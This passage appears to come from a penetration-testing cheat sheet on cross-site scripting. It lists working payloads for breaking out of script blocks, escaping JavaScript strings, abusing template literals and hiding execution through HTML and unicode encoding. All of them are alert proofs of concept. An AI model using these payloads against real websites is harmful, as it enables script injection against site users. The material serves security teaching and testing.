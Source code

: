 ```javascript
</script><img src=1 onerror=alert(document.domain)>
```

Note that in this example we **haven't even closed the single quote**. This is because **HTML parsing is performed first by the browser**, which involves identifying page elements, including blocks of script. The parsing of JavaScript to understand and execute the embedded scripts is only carried out afterward.

### Inside JS code

If `<>` are being sanitised you can still **escape the string** where your input is being **located** and **execute arbitrary JS**. It's important to **fix JS syntax**, because if there are any errors, the JS code won't be executed:

```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```

### Template literals \`\`

In order to construct **strings** apart from single and double quotes JS also accepts **backticks** **` `` `** . This is known as template literals as they allow to **embedded JS expressions** using `${ ... }` syntax.\
Therefore, if you find that your input is being **reflected** inside a JS string that is using backticks, you can abuse the syntax `${ ... }` to execute **arbitrary JS code**:

This can be **abused** using:

```javascript
`${alert(1)}`
`${`${`${`${alert(1)}`}`}`}`
```

```````````````javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop(){return loop}
loop``````````````
```````````````

### Encoded code execution

```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```

### Unicode Encode JS execution

```javascript
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```
